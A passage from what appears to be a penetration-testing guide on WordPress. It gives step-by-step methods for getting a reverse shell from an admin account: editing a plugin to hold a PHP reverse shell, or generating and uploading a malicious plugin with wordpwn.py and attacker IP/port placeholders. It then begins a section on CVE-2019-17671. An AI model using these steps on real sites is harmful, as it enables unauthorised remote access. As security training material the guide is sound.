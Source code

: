 {% tab title="Plugin Injection " %}
It may be possible to upload .php files as a plugin. For this:

* Access to dashboard (/wp-admin/).
* Go to Plugins → Plugin Editor.
* Insert [Unix Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) or [Windows](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php\_reverse\_shell.php) PHP code into the file (e.g. plugin\_name.php) and update $ip and $port.
* Access "https://example.com/wp-content/plugins/\<plugin>/\<plugin>.php"\
  We should get the target shell in our netcat listener.
{% endtab %}

{% tab title="Malicious Plugin " %}
Alternatively, we can craft a malicious plugin and install it using the [malicious-wordpress-plugin](https://github.com/wetw0rk/malicious-wordpress-plugin) python script.

```bash
# Generate a malicious plugin and start a listener
python wordpwn.py <ATTACKING_IP> <ATTACKING_PORT> Y

# Just generate a malicious plugin
python wordpwn.py <ATTACKING_IP> <ATTACKING_PORT> N
```

Then:

* Access to dashboard (/wp-admin/).
* Go to Plugins → Upload plugin. (/wp-admin/plugin-install.php?tab=upload)
* Upload our generated plugin
* Activate the plugin
* Trigger the reverse shell by browsing one of the following url
  * http://(target)/wp-content/plugins/malicious/wetw0rk\_maybe.php
  * http://(target)/wp-content/plugins/malicious/QwertyRocks.php

{% hint style="info" %}
You may want to edit the code to change the msfvenom payload, plugin name, or URLs that trigger the reverse shell.&#x20;

The **`malicious`** in the url, is defined by the zip file name.
{% endhint %}
{% endtab %}
{% endtabs %}

### Vulnerabilities

#### Unauthenticated View Private/Draft Posts - CVE-2019-17671

{% tabs %}
{% tab title="Exploit" %}
This vulnerability could allow an unauthenticated user to view private or draft posts due to an issue within WP\_Query.

{% hint style="info" %}
Versions of WordPress <= 5.2.3 are vulnerable
{% endhint %}
